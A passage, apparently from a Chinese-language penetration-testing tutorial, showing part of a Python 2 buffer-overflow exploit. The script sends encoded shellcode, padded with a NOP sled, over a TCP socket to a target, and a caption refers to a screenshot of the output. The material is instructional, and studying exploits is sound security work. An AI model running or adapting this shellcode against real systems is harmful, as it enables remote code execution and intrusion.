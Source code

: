 ```
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

以下屏幕截图显示了前面命令的输出：

![](img/7a5ad769-7b63-423a-8e12-8068eeaf83ec.png)
